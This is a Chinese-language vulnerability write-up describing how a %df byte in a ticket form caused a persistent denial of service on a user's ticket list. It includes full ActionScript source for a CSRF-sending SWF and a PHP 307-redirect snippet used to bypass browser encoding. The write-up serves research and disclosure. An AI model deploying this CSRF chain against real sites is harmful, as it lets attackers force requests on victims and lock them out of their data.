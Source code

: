 ```yaml
---
title: 字符不当处理导致的DOS
tags: 
- CSRF
- Web安全
atthor: Xenc
Date: Oct 27th,2019
grammar_cjkRuby: true
---
```


> **在一次漏洞挖掘当中遇到的一个有趣的案例这里记录一下**

我在提交工单的地方用burp修改数据包，发送了一个 %df 随后，工单就出错了，无法获取工单列表,进入工单会发现什么也没有，后来发现，就是由于这个字符导致服务器不能正确返回
>  登录账号后可以进行提交工单，提交工单的时候在内容参数上加入 %df等特殊符号会让后端插入数据库造成可逆的影响，提交成功后再次看工单列表的时候会发现工单获取不了，全是0个工单0个在处理，即使在提交一个工单（在上一个工单没有结束前提交工单的话会提示还有一个未解决的工单无法提交新的工单），就算提交成功了，返回提交工单的地方依然是0 获取不了自己的工单，请求工单列表的请求返回的是200 但是无数据，其实是有列表的，但是由于前面插入了非法字符导致数据库造成了一定的影响，在没有删掉那个特殊字符的时候查看工单是没有东西的，间接变成了工单DOS，一个请求，永久无法看见自己的工单，带来了很大的不便

就像这样:

![result_DOS](http://console-log.cn/img/2019_10_27_CSRF_DOS.jpg)

发现这个问题的时候我以为简单构造一个CSRF提交一个 %df字符就可以照成DOS、后来才发现是我太菜了

浏览器会自动把%df进行编码发送过去的时候就变成 %25df 服务器收到了这个并不会出现字符处理不当发送DOS。

漫长利用之路....

随后我才知道，表单提交的时候 **content-type** 被设置成 **application/x-www-form-urlencoded** 会把post参数进行编码然后发送给服务器，编码过程是浏览器自动的无需用户干预。

1. 我尝试POST方式改成GET 结果服务器对方服务器不允许这个方式提交表单

2. 睡了个觉后想起来把 **form** 表单的 **encrypt** 属性改成 **text/plain** 来试试可不可以绕过结果发现 **%df**居然不会被浏览器编码我真是太开心了！！ 后来返回一个错误。。。 我日？？？他不接受这个数据，我的天啊，太难了我。

3. 落泪后我就尝试看一下他接受点啥，才发现只有当 **content-type** 被设置成 **application/x-www-form-urlencoded** 的时候服务器才会接受数据成功提交表单

4. 后面我用AJAX设置头发现也不能超过，会发送OPTIONS预请求，而对方服务器没有开启这个方法，也就失败了

问题来了，使用**content-type** 被设置成 **application/x-www-form-urlencoded** 浏览器自动编码POST数据，该怎么绕过去达到目的呢？？？

太难了。我们必须绕过了它。

最后我想到了 CSRF + 307跳转 + SWF 来达到目的。因为307跳转是一种特殊的跳转，307 状态码可以确保请求方法和消息主体不会发生变化

这就对了，当请求方法和消息主体不会变化的时候就可以成功提交表单

SWF可以设置header头部，然后发送一个 使用**content-type** 被设置成 **application/x-www-form-urlencoded** 的header，通过307跳转去CSRF提交表单。没错我就是这样成功达到了目的。

SWF源代码：
```
package
{
  import flash.display.Sprite;
  import flash.net.URLLoader;
  import flash.net.URLRequest;
  import flash.net.URLRequestHeader;
  import flash.net.URLRequestMethod;
public class csrf extends Sprite
  {
    public function csrf()
    {
      super();
      var member1:Object = null;
      var myJson:String = null;
      member1 = new Object();
      member1 = {
          "acctnum":"100",
          "confirm":"true"
      };
      var myData:Object = member1;
      myJson = JSON.stringify(myData);
      var url:String = "攻击者构造的307跳转界面";
      var request:URLRequest = new URLRequest(url);
      request.requestHeaders.push(new URLRequestHeader("Content-Type","application/x-www-form-urlencoded"));
      request.data = "wd_oid=&ticket_text=11111111111111111111111111111111111111111 %df 'a&ticket_type=2";
      request.method = URLRequestMethod.POST;
      var urlLoader:URLLoader = new URLLoader();
try
      {
          urlLoader.load(request);
          return;
      }
      catch(e:Error)
      {
          trace(e);
          return;
      }
    }
  }
}
```

写一个307跳转：
```
<?php
header("Location: victim.com",true,307);
?>
```

CSRF HTML:

![2019_10_27_CSRF_DOS_CSRFCODE.jpg](http://console-log.cn/img/2019_10_27_CSRF_DOS_CSRFCODE.jpg)

组合上去就可以成功！绕过了阻碍达到了目的。

![2019_10_27_CSRF_DOS_RESULT.jpg](http://console-log.cn/img/2019_10_27_CSRF_DOS_RESULT.jpg)


成功了！

然后我用AJAX + 307跳转 + CSRF也可以进行利用

原理就是利用**307 状态码可以确保请求方法和消息主体不会发生变化** 也不过多阐述。
